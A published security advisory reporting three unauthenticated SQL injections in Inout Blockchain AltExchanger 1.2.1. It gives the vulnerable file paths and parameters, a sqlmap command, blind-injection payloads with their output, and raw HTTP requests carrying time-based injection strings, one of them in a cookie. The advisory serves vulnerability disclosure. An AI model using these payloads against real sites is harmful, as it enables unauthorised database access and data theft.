

# Information
```
Vulnerability Name  : Multiple Remote SQL Injections in Inout Blockchain AltExchanger
Product             : Inout Blockchain AltExchanger
version             : 1.2.1
Date                : 2022-05-21
Vendor Site         : https://www.inoutscripts.com/products/inout-blockchain-altexchanger/
Exploit Detail      : https://github.com/bigb0x/CVEs/Blockchain-AltExchanger-121-sqli.md
CVE-Number          : In Progess
Exploit Author      : Mohamed N. Ali @MohamedNab1l
```
<br>

# Description
<br>

Three SQL injections have been discovered in Blockchain AltExchanger cryptocurrency exchange platform v1.2.1. This will allow remote non-authenticated attackers to inject SQL code. This could result in full information disclosure.
<br>

# 1- Vulnerable Parameter: symbol (GET)

<br>

Vulnerability File: /application/third_party/Chart/TradingView/chart_content/master.php

<br>

Sqlmap command:
python sqlmap.py -u "http://vulnerable-host.com/application/third_party/Chart/TradingView/chart_content/master.php/history?from=1652650195&resolution=5&symbol=BTC-BCH" -p symbol --dbms=MySQL --banner --random-agent --current-db

output:
Parameter: symbol (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: from=1652650195&resolution=5&symbol=BTC-BCH') AND 7820=7820 AND ('HqKC'='HqKC

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: from=1652650195&resolution=5&symbol=BTC-BCH') AND (SELECT 1060 FROM (SELECT(SLEEP(5)))WJpc) AND ('rQoO'='rQoO
---
[16:43:22] [INFO] testing MySQL
[16:43:23] [INFO] confirming MySQL
[16:43:26] [INFO] the back-end DBMS is MySQL
[16:43:26] [INFO] fetching banner
[16:43:26] [INFO] resumed: 5.6.50
web application technology: PHP 7.0.33
back-end DBMS: MySQL >= 5.0.0
banner: '5.6.50'
[16:43:26] [INFO] fetching current database
[16:43:26] [INFO] retrieved: inout_blockchain_altexchanger_db
current database: 'inout_blockchain_altexchanger_db'

<br>
<kbd>(Blockchain-AltExchanger-121-sqli-1.png)</kbd>


<br>

# 2- Vulnerable Parameter: marketcurrency (POST)

<br>

Vulnerability File: /index.php/coins/update_marketboxslider

<br>

HTTP Request:
----------------------------------------------------
POST /index.php/coins/update_marketboxslider HTTP/1.1
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Referer: http://vulnerable-host.com/
Cookie: inoutio_language=4
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
Content-Length: 69
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4512.0 Safari/537.36
Host: vulnerable-host.com
Connection: Keep-alive

displaylimit=4&marketcurrency=-INJEQT-SQL-HERE
----------------------------------------------------

<br>

# 3- Vulnerable Parameter: Cookie: inoutio_language (GET)

<br>

Vulnerability File: /index.php

<br>

HTTP Request:
----------------------------------------------------
GET /index.php/home/about HTTP/1.1
Referer: https://www.google.com/search?hl=en&q=testing
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4512.0 Safari/537.36
x-requested-with: XMLHttpRequest
Cookie: inoutio_language=0'XOR(if(now()=sysdate()%2Csleep(6)%2C0))XOR'Z
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
Host: vulnerable-host.com
Connection: Keep-alive

----------------------------------------------------

<br>
# Timeline
```
2022-05-03: Discovered the bug
2022-05-03: Reported to vendor
2022-05-21: Advisory published
```

<br>

# Discovered by
```
Mohamed N. Ali
@MohamedNab1l
ali.mohamed@gmail.com

```
